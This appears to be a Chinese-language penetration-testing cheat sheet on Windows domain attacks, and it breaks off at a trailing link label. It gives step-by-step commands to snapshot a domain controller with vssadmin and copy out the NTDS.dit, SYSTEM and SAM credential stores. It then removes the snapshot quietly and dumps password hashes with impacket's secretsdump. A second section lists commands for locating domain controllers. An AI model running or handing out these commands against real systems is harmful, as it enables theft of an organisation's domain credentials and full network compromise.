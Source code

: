 ### ntds.dit

vssadmin 方法 >= win 2008

查询当前系统的快照

> vssadmin list shadows

创建快照

> vssadmin create shadow /for=c:
>
> 获得 Shadow Copy Volume Name 为 ``\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47``

复制 ntds.dit, copy 第一个参数为创建快照时位置:

> copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\NTDS\ntds.dit c:\ntds.dit   

复制 system 和 sam

> copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\system c:\
>
> copy \\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy47\windows\system32\config\sam c:\

删除快照

> vssadmin delete shadows /for=c: /quiet

获取将以上 system，sam, ntds.dit 放到 /root/ntds_cracking/ 下，运行	

> python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/SYSTEM LOCAL

py 地址:

> https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py

域渗透——获得域控服务器的 NTDS.dit 文件

> http://www.4hou.com/technology/10573.html

### dc 定位

> nltest dclist:xx.xx
>
> net time /domain
>
> systeminfo 中的 domain
>
> ipconfig /all 中的 DNS Suffix Search List
>
> 扫描53端口，找 dns 位置
>
> set log
>
> net group "domain controllers" /domain
>
> PowerView Get-NetDomainController

PowerView 地址:
